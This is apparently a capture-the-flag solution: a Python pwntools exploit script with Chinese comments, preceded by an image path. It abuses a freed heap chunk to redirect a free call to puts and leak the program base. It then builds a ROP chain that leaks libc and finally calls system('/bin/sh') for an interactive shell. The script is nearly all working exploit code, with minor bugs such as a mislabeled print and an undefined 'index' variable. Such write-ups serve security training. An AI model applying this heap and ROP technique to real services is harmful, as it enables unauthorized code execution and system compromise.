 ```
delete(2)
delete(1)
delete(0)
create(0x20,'a'*24+'\x2d')#先将free函数的地址覆盖为puts函数
delete(1)

sh.recvuntil('a'*24)
elf_base=u64(sh.recv(6).ljust(8,'\x00'))-0xd2d#泄露程序的基地址
printf_plt=elf_base+0x9d0
puts_plt=elf_base+0x990
puts_got=elf_base+0x202030
print 'elf_base='+hex(elf_base)
print 'printf_plt='+hex(printf_plt)
print 'puts_plt='+hex(printf_plt)
pop_4=0x11dc+elf_base
pop_rdi=0x11e3+elf_base
print "pop_4="+hex(pop_4)
print "pop_rdi"+hex(pop_rdi)
delete(0)
payload=0x18*'a'
payload+=p64(pop_4)
create(0x20,payload)
delete(1)
sh.sendlineafter('3.quit','delete ')
sh.sendlineafter('id:','1')
sh.recvuntil("sure?:")
payload1='yesaaaaa'+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)
payload1+=p64(0xc71+elf_base)#泄露libc基地址
sh.sendline(payload1)
puts_addr=u64(sh.recv(6).ljust(8,'\x00'))
print 'puts_addr='+hex(puts_addr)
offset=puts_addr-libc.symbols['puts']
system_addr=offset+libc.symbols['system']
binsh_addr=offset+libc.search('/bin/sh').next()
print 'system_addr='+hex(system_addr)
print 'binsh_addr='+hex(binsh_addr)
# pause()
delete(0)
payload=0x18*'a'
payload+=p64(pop_4)
create(0x20,payload)
sh.sendlineafter('3.quit','delete ')
sh.sendlineafter('id:',str(index))
sh.recvuntil("sure?:")
payload1='yesaaaaa'+p64(pop_rdi)+p64(binsh_addr)+p64(system_addr)#system函数覆盖
sh.sendline(payload1)
sh.interactive()


```



